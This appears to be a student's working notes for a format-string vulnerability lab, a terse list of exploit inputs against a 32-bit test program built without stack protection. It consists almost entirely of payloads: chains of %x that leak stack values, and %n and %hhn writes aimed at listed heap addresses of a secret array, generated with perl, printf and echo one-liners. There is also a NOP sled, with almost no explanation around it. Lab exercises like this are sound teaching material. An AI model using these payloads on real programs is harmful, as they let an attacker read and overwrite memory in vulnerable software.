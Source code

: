 1448452524

%x.%x.%x.%x.%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n.%x

#### WORKS END

%x.%x.%x.%x.%x.%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n

1448452512

%x.%x.%x.%x.%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n.%x

#### Payload 2.2
0x5655A1AC


perl -e 'print "\xa0\xa1\x55\x56\xac\xa1\x55\x56"' \
	   \.%x.%x.%x.%x.%x.%x.%x.%x.%x.\
       'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' \
       'BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB' \
       '%hhn%hhn' > input

echo $(printf "\xa4\xa1\x55\x56\xac\xa1\x55\x56").%x.%x.%x.%x.%x.%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n > input
\xa4\xa1\x55\x56\xac\xa1\x55\x56
run $(perl -e 'print "\x90"x20')

printf "\xa4\xa1\x55\x56".%x.%x.%x.%x.%x.%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n

```
echo $(printf "\xa4\xa1\x55\x56\xb8\xa1\x55\x56%77c%1\\$hhn%9c%2\\$hhn") > input
```


perl -e 'print "\xa4\xa1\x55\x56\xb8\xa1\x55\x56%77c%1\$hhn%9c%2\$hhn"' > input


printf "\xa4\xa1\x55\x56".%x.%x.%x.%x.%x.%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n


echo $(printf "\xac\xa1\x55\x56").%x.%x.%x.%x.%x.%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n > input


	gcc -m32 -g -o format_string -z execstack -fno-stack-protector format_string.c

secret[0]’s address is 0x5655a1a0 (on heap)
secret[1]’s address is 0x5655a1a4 (on heap)
secret[2]’s address is 0x5655a1a8 (on heap)
secret[3]’s address is 0x5655a1ac (on heap)


echo %x.%x.%x.%x.%x.%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n.%hhn.%x.%x.%x.%x.%x.%x.%x.%x.%x r> input


%x.%x.%x.%x.%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n



%x.%x.%x.%x.%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n
